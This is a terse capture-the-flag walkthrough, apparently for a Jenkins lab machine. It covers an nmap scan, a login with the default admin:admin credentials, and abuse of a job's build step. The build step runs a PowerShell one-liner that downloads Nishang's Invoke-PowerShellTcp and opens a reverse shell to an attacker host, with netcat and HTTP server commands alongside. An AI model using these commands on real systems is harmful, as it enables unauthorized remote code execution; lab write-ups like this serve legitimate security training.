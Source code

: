 1)
- nmap IP
- 3
2)
- I dont know how you were meant to do this but I just tried the first thing that came to mind and it worked, admin:admin
3)
- go to projec history > project 1 > configure, or /job/project/configure
- scroll down to where it says "build execute windows batch command"
- python -m SimpleHTTPServer 80
- nc -lvnp 80
- enter the following in the box 
- powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.13.209:80/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.13.209 -Port 1234
- apply > build now
4)
- cat /Users/bruce/Desktop/user.txt
